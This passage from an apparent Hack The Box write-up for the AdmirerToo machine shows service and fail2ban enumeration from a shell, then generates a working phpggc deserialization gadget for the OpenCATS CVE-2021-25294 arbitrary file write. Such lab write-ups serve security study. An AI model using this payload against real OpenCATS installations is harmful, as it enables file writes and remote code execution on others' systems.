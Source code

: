 ```bash
systemd-udev-trigger.service       loaded active exited  udev Coldplug all Devices
systemd-udevd.service              loaded active running udev Kernel Device Manager
systemd-update-utmp.service        loaded active exited  Update UTMP about System Boot/Shutdown
systemd-user-sessions.service      loaded active exited  Permit User Sessions
user-runtime-dir@1002.service      loaded active exited  User Runtime Directory /run/user/1002
user@1002.service                  loaded active running User Manager for UID 1002
vgauth.service                     loaded active running Authentication service for virtual machines hosted on VMwa

LOAD   = Reflects whether the unit definition was properly loaded.
ACTIVE = The high-level unit activation state, i.e. generalization of SUB.
SUB    = The low-level unit activation state, values depend on unit type.

39 loaded units listed. Pass --all to see loaded but inactive units, too.
To show all installed unit files use 'systemctl list-unit-files'.
```

Enumerated fail2ban:

```bash
jennifer@admirertoo:/opt/opencats$ fail2ban-server -V
Fail2Ban v0.10.2

jennifer@admirertoo:/opt/opencats$ cat /etc/fail2ban/jail.local
[DEFAULT]
ignoreip = 127.0.0.1
bantime = 60s
destemail = root@admirertoo.htb
sender = fail2ban@admirertoo.htb
sendername = Fail2ban
mta = mail
action = %(action_mwl)s
```

## OpenCATS PHP Object Injection to Arbitrary File Write - CVE-2021-25294

OpenCATS Version 0.9.5.2

[CVE-2021-25294 : OpenCATS through 0.9.5-3 unsafely deserializes index.php?m=activity requests, leading to remote code execution. This occ](https://www.cvedetails.com/cve/CVE-2021-25294/)

[OpenCATS PHP Object Injection to Arbitrary File Write](https://snoopysecurity.github.io/web-application-security/2021/01/16/09_opencats_php_object_injection.html)

Generated the POP gadget like the PoC does:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ echo 'this is a test' > /tmp/test.txt

┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/test.txt /tmp/test.txt
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A15%3A%22this+is+a+test%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Ftest.txt%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```
